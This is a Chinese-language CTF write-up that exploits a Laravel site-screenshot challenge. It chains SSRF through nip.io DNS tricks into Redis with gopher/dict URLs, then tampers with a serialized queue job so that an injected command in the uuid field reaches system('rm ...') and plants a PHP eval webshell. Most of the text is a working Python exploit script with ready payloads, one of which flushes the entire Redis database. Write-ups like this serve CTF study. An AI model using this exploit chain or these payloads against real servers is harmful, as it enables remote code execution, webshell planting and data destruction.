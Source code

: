 这道题的gethtml功能有ssrf的功能点：
```php
class SiteShotController extends Controller
{
    public function getHtml(Request $request)
    {
        $site = $request->input('site');

        if (!$this->validateurl($site)) {
            return  response()->json([
                'status' => 'failed',
                'message' => 'Dont do naughty stuff.'
            ]);
        }

        if (!isset($site)) {
            return response()->json([
                'status' => 'failed',
                'message' => 'Need site parameter'
            ]);
        }

        $ssSrv = new SiteShotService();

        return $ssSrv->getHtmlResp($site);
    }
```
$ssSrv->getHtmlResp用了curl
在靶机的环境中是可以用gopher协议等等去打的
但是要绕过validateurl的校验，这个函数不允许传入本地ipv4地址或者不正常的域名（只能包含数字和-）
但是可以dns重绑定绕过这个校验，可以用nip.io这个已经预设的域名，相当强大，通过一定结构的域名可以指向任何ip


在给的附件里面的.env还可以发现跑着redis服务，redis服务是用来存储任务队列的。即filequeue


主要是下面的代码
```php
 $rf = new rmFile($filequeue);
            Queue::push($rf);
```

框架会对filequeue序列化并且转化为json格式放入redis的laravel_database_queues:default中（键名），对每一个队列中的任务执行rmfile的handle方法
即fileQueue->deleteFile();
deletefile用的是filequeue对象的uuid和txt属性去拼接一个filepath，但是实际上ssrf后uuid是可控的，因为要从redis中反序列化出这个字段，而我们是可以通过ssrf
去修改laravel_database_queues:default中相应索引的任务的属性来劫持反序列化的属性的，然后控制传入 system("rm ".$filepath);的filepath参数，从而写入php shell

网上的redis攻击方法说的改config是不行的，config在高版本上了包含，dir切换不了，运行阶段是无法关闭保护的
可以先用在框里面输入dict://test.127-0-0-1.nip.io:6379/info然后gethtml来测试redis联通性
联通后用下面的脚本去打：

```python
import html.entities
import urllib.parse
import requests
import json
import logging
s=r'{"uuid":"1c0d0b12-641d-49ae-a8f6-5f342fa91e22","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:35:\"$(touch /www/public/shell.php).txt;\";s:4:\"uuid\";s:66:\"404;echo \"<?php eval(\\$_GET[0])>\" > /www/public/shell.php;touch aa\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"kFmxDNJFXkM5ZFNBXWZdUfVUknKQoksy","attempts":0}'#要改uuid成别的的话自己修正一下uuid的长度，把s:66改成别的
objlen=len(s)
htmlencode=urllib.parse.quote(s)
print(htmlencode)
ssrf=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*4\n$4\nlset\n$31\nlaravel_database_queues:default\n$1\n0\n${}\n{}\n".format(objlen,htmlencode).replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
d=r"dict://127-0-0-1.nip.io:6379/flushall"
show=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*3\n$6\nlindex\n$31\nlaravel_database_queues:default\n$1\n0\n".replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
print(ssrf)
flush=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*1\n$8\nflushall\n".replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
test=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*4\n$4\nlset\n$31\nlaravel_database_queues:default\n$1\n0\n$554\n%7b%22uuid%22%3a%22812d6caf-9d25-42cd-893c-7696a493524d%22%2c%22displayName%22%3a%22App%5c%5cJobs%5c%5crmFile%22%2c%22job%22%3a%22Illuminate%5c%5cQueue%5c%5cCallQueuedHandler%40call%22%2c%22maxTries%22%3anull%2c%22maxExceptions%22%3anull%2c%22failOnTimeout%22%3afalse%2c%22backoff%22%3anull%2c%22timeout%22%3anull%2c%22retryUntil%22%3anull%2c%22data%22%3a%7b%22commandName%22%3a%22App%5c%5cJobs%5c%5crmFile%22%2c%22command%22%3a%22O%3a15%3a%5c%22App%5c%5cJobs%5c%5crmFile%5c%22%3a1%3a%7bs%3a9%3a%5c%22fileQueue%5c%22%3bO%3a21%3a%5c%22App%5c%5cMessage%5c%5cFileQueue%5c%22%3a3%3a%7bs%3a8%3a%5c%22filePath%5c%22%3bs%3a45%3a%5c%22%5c%2fsrc%5c%2f1356bb54-1c72-40fe-93ed-78fd5907af51.txt%5c%22%3bs%3a4%3a%5c%22uuid%5c%22%3bs%3a1%3a%5c%221%5c%22%3bs%3a3%3a%5c%22ext%5c%22%3bs%3a3%3a%5c%22txt%5c%22%3b%7d%7d%22%7d%2c%22id%22%3a%22SZ9ZKmfSw3zicR6kc9nvKTwL495P2iUN%22%2c%22attempts%22%3a0%7d\n".replace(r"\n",r"%0d%0a").replace("+","%20")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
url="http://192.168.205.128:1337/api/get-html"#改一下ip和端口
html="https://www.google.com/"
a=requests.post(url,data={"site":ssrf})
print(a.text)
b=requests.get("http://192.168.205.128:1337"+a.json()["filename"]) #改一下ip和端口
print(b.text)
```